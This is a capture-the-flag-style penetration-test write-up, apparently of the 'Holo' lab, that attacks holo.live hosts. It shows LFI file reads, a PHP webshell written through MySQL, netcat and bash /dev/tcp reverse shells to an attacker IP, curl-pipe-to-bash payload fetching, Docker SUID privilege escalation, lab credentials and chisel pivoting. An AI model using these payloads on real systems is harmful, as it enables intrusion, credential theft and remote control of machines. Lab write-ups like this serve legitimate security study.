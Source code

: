 # Initial Recon
Scope of engagement 10.200.110.0/24 and 192.168.100.0/24
## Nmap
Enumerating public facing IP's
See which IP's are up:
```bash
nmap -n 10.200.110.0/24
```
10.200.110.33 and 10.200.110.250
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 05:44 EDT
Nmap scan report for 10.200.110.33
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 10.200.110.250
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (2 hosts up) scanned in 119.11 seconds
```
Saved as External-network-scan.nmap

Run scan on 10.200.110.33
```bash
nmap -sC -sV 10.200.110.33
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 06:18 EDT
Nmap scan report for 10.200.110.33
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:c0:f1:4d:49:de:5e:ec:14:51:dc:c5:75:18:aa:94 (RSA)
|   256 53:bb:46:12:93:e1:ab:09:90:a5:ef:54:87:e8:40:44 (ECDSA)
|_  256 9f:94:30:aa:76:42:10:0c:c2:0a:ae:a6:a1:48:00:91 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 21 disallowed entries (15 shown)
| /var/www/wordpress/index.php 
| /var/www/wordpress/readme.html /var/www/wordpress/wp-activate.php 
| /var/www/wordpress/wp-blog-header.php /var/www/wordpress/wp-config.php 
| /var/www/wordpress/wp-content /var/www/wordpress/wp-includes 
| /var/www/wordpress/wp-load.php /var/www/wordpress/wp-mail.php 
| /var/www/wordpress/wp-signup.php /var/www/wordpress/xmlrpc.php 
| /var/www/wordpress/license.txt /var/www/wordpress/upgrade 
|_/var/www/wordpress/wp-admin /var/www/wordpress/wp-comments-post.php
|_http-title: holo.live
|_http-generator: WordPress 5.5.3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2 ports open.

## Port 80 enumeration
CME is wordpress running version 5.5.3
Title of the page is holo.live
The page pulls images from www.holo.live
Scan for more subdomains.
```bash
ffuf -u http://10.200.110.33 -H "Host: FUZZ.holo.live" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fl 157
```
3 domains:
- www
- dev
- admin
Running dir busting on all three sub domains.
www:
Nothing intresting just a wordpress install

dev:
admin.php, img.php, login.php

admin:
robots.txt
	/var/www/admin/supersecretdir/creds.txt
	the page gives a 403 error but is still there.

# Port 80 Exploitation
On the dev domain there is the img.php which can load in a file.
Checking for LFI.
```bash
curl http://dev.holo.live/img.php?file=../../../../../../../../etc/passwd
```
This returns the file.
Which means you can read out the creds.txt
```txt
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
```
Logging into the admin subdomain there is a dashboard.php.
Use the LFI to get the source code.
Quick grep for a parameter to check for RCE
```bash
cat dashboard.php | grep GET
```
This reveals a cmd variable.
which gives RCE.
try a reverse shell with the payload
```bash
nc -e /bin/bash 10.50.107.132 9001
```
This gives a shell on the box.
Stabilise the shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

User flag:
```
HOLO{175d7322f8fc53392a417ccde356c3fe}
```
# Foothold on 10.200.110.33
First thoughts are the computer name is random and it is linux. Docker? yep
find the groups on the docker instance.
```bash
cat /proc/1/cgroup
```
output:
```txt
12:blkio:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
11:devices:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
10:memory:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
9:cpuset:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
8:perf_event:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
7:cpu,cpuacct:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
6:hugetlb:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
5:pids:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
4:rdma:/
3:freezer:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
2:net_cls,net_prio:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
1:name=systemd:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
0::/system.slice/containerd.service
```

Check network config and do a ping sweep on the gatway
```bash
ifconfig
nc -zv 192.168.100.1 1-65535
```
Output:
```txt
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 33060 (?) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 8080 (http-alt) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 3306 (mysql) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 80 (http) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 22 (ssh) open
```
port 8080 seems to be a second website.
3306 is a sql database.

Check for the db_connect.php file in the webserver on the docker container.
read the file.
```txt
define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');
```
connect to the database.
```bash
mysql -u admin -p -h 192.168.100.1
```

Internal sql credentials:
admin:!123SecureAdminDashboard321!
gurag:AAAA

inject a revshell into the sql database to break out of the docker container
```sql
mysql> select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```
```bash
curl 192.168.100.1:8080/shell.php?cmd=id
```

now to get a reverse shell on the box.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.50.107.132/9002 0>&1
```
host it an set up a listener then url enconde and pass as the cmd parameter of the webshell.
```bash
curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.107.132%3A80%2Fshell.sh%7Cbash%20%26'
```
Now a shell on 10.200.110.33
```txt
HOLO{3792d7d80c4dcabb8a533afddf06f666}
```

Priv esc.
check for SUID bit
```
find / -perm -u=s -type f 2>/dev/null
```
docker has a SUID priv esc.
```
sudo install -m =xs $(which docker) .

./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
instead of mounting alpine mount the container running ubuntu.
## Persistence
Cracking the hash in /etc/shadow gives ssh creds
linux-admin:linuxrulez (10.200.x.33)

# NOTE
different sessions so ips might be different.

# Pivot with chisel
Target:  `./chisel client 10.200.111.33:8000 R:socks`
Attacker:  `./chisel server -p 8000 --reverse`

# C2 time covenant
